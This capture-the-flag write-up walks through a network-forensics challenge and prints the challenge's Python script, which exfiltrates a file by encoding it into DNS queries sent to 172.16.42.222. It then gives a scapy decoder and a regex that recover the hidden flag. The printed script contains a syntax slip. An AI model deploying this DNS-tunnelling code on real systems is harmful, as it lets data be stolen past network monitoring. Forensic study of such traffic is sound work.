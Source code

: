 ```yaml
---
title: Hexpresso FIC Quals 2019: Step 2
slug: hexpresso-fic-2
date: 19/12/2019 02
---
```


The second step is some network forensics.

![Introduction](/assets/hexpresso-fic-quals/step2/intro.png)

We are given a PCAP file. It is not too big, we can clearly observe three
events (all the addresses are on `172.16.42.0`):

* `.99` requests `/index.html` to `.222` (does not matter for the challenge)
* `.99` requests `/dnstunnel.py` to `.222`
* `.99` performs dozens of DNS queries

Here is the Python script `dnstunnel.py`:

```python
#! /usr/bin/python3

import random
import os


# This is the "secret" data that is going to be sent
f = open('data.txt','rb')
data = f.read()
f.close()

print("[+] Sending %d bytes of data" % len(data))
print("[+] Cut in pieces ... ")


# encrypt encodes the chunck l in base16
# l is also XORED with a random key, that is added in front of the final
# payload chunk
def encrypt(l):
    key = random.randint(13, 254)
    output = hex(key)[2:].zfill(2)

    # This AES is a bit weird but who am I to judge
    for i in range(len(l)):
        aes = ord(l[i]) ^ key)
        output += hex(aes)[2:].zfill(2)

    # Key + encoded data
    return output


# udp_secure_tunneling actually performs the DNS query
# The command is as follows:
# host -t A <ENCODED_DATA>.local.tmux <DNS server>
# It is fully synchronous and there is a sleep so the ordering of the DNS
# queries is not very likely to be undefined.
def udp_secure_tunneling(my_secure_data):
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data
    os.system(mycmd)
    os.system("sleep 1")


# send_data sends a chunk of data (global variable), starting
# at position s
def send_data(s):
    global n
    n = n+1
    # Each DNS query exfiltrates between 4 and 11 bytes
    length = random.randint(4,11)

    # There is a redundancy mechanism, in case of packet lost
    # If we send more bytes we can recover if we loose some packets?
    redundancy = random.randint(2,16)
    chunk = data[s:s+length+redundancy].decode("utf-8")
    # Redundancy marks are added to the payload
    chunk = "%04d%s"%(s,chunk)
    print("%04d packet --> %s.local.tux" % (n,chunk))

    blob = encrypt(chunk)
    udp_secure_tunneling(blob)
    return s + length


# Keep track of what remains to be sent
cursor = 0

# As long as it remains some data, send data from cursor
while cursor < len(data):
    cursor = send_data(cursor)
```

Please, take a look at the comments on the script.

We can understand that some secret payload has been sent using the DNS
exfiltration technique. Its very simple: you just make a bunch of DNS
queries, embedding the data in the domain that is queried.

The only real constraint of this technique is that the data has to be pure
plaintext (as far as I know?) so you need some kind of encoding. The base64
is often chosen but here it is base16.

There is also a XOR operation... Each DNS query has its own key but really,
it is no big deal as the key is sent alongside the cipher.

We will talk a bit more about the redundancy mechanism later. For now, we
just need to know that we could expect some data to be duplicated and that
redundancy marks (`chunk = "%04d%s"%(s,chunk)`) are part of the payload.

We have tout bien compris so let's write a script that:

* Iterates over the DNS queries
* For each query, extracts its key
* Decodes its payload
* Performs the XOR operation
* Adds the result to a buffer

After a few copy/pastes here we go:

```python
from scapy.all import rdpcap, DNSQR, DNSRR


def extract(file_path):
    result = ''

    for p in rdpcap(file_path):
        if p.haslayer(DNSQR) and not p.haslayer(DNSRR):
            # It is a DNS query!
            # We remove the base domain
            qry = p[DNSQR].qname.decode().replace('.local.tux.', '')

            key = qry[0:2] # Extract the key
            rest = qry[2:] # What remains is the payload

            # Group the characters by two (base16)
            byTwo = [rest[i:i+2] for i in range(0, len(rest), 2)]
            # Base conversion, XOR and decode
            for c in byTwo:
                plain = int(c, 16) ^ int(key, 16)
                result += chr(plain)

    return result


with open('output.txt', 'w+') as f:
    f.write(extract('cb52ae4d15503c598f0bb42b8af1ce51.pcap'))
```

Here is the content of `output.txt`:

```
0000Congratulations!! Y0011ions!! You did it so f0020u did it so far!

Here is 0030o far!

Here is t0039ere is the link 0049 link in bas0059ase32 for0064 form:
NB2HI4DTHIX0071NB2HI4DTHIXS6Y3UMYXGQ0077DTHIXS6Y3UMYXGQZLY0081XS6Y3UMYXGQZLY00853UMYXGQZLY0092ZLYOBZG0097ZGK43TN4XGM40103N4XGM4RPGU3TSODDME2DO0112U3TSODDME2DOZDBMNSTKY0122DOZDBMNSTKYZVMU3G0127MNSTKYZVMU3GIMZVGI4T
MOJ01373GIMZVGI4T
MOJQM0141ZVGI4T
MOJQMM4DMMZTG42QU==0152MM4DMMZTG42QU===0159TG42QU===

 _    0163QU===

 _      0168

 _             0179        0183                 0189                   0196           0205            
|0213    
| |__   _0224  _____  ___ _0228___  ___ __ 0235_ __  _ __0243__ ___  ___ ___  _0253_ ___  ___0261__  
|0265
| '_ \ / _ \ \0273/ _ \ \/ / '_ \| '_0283 '_ \| '__/ 0288| '__/ _ \/ __/ __0298/ __/ __|/0303 __|/ _ \ 
| | | |  __/0310 \ 
| | | |  __/>  <| |0320|  __/>  <| |0328 <| |_) | | |  0333_) | | |  __/\__ \_0342 __/\__ \__ \ (_) |
|_| 0353 \ (_) |
|_| |_|\0362|_| |_|\___/_/\_\ ._0371__/_/\_\ .__/|_|  \___||__0382_/|_|  \___||___/0389\___||___/_0397_/___/\___/ 
      0401_/\___/ 
           0409
       0413             |0424  |_|          0431                    0435                    0443              


0447          


0453    


0459
```

It looks promising but is very hard to read because of the redundancy. Pieces
of text are repeated, and the redundancy marks (`0000`, `0030`, etc) are
mixed with the content.

We can partially read the text: *Here is the link in base32 form:*. So let's
extract the base32 chunk and put it on a single line:

```
NB2HI4DTHIX0071NB2HI4DTHIXS6Y3UMYXGQ0077DTHIXS6Y3UMYXGQZLY0081XS6Y3UMYXGQZLY00853UMYXGQZLY0092ZLYOBZG0097ZGK43TN4XGM40103N4XGM4RPGU3TSODDME2DO0112U3TSODDME2DOZDBMNSTKY0122DOZDBMNSTKYZVMU3G0127MNSTKYZVMU3GIMZVGI4TMOJ01373GIMZVGI4TMOJQM0141ZVGI4TMOJQMM4DMMZTG42QU==0152MM4DMMZTG42QU===0159TG42QU===0163QU===
```

Here is the Vim regex I used to clean up the string:

```
:%s/\(.\{-\}\)\d\{4\}\1/\1/
```

It matches on any piece of text similar to `ABCDEF0123ABCDEF` (piece of text
(base32 charset), redundancy indicator (4 digits), redundancy text (same as
the piece of text)) and replaces it by `ABCDEF` (the piece of text).

Repeatedly applying the regex produces the following string:

```
NB2HI4DTHIXS6Y3UMYXGQZLYOBZGK43TN4XGM4RPGU3TSODDME2DOZDBMNSTKYZVMU3GIMZVGI4TMOJQMM4DMMZTG42QU===
```

Which decodes to our flag:

```
https://ctf.hexpresso.fr/5798ca47dace5c5e6d3529690c863375
```

You can [click here](/posts/hexpresso-fic-3) for the next step.
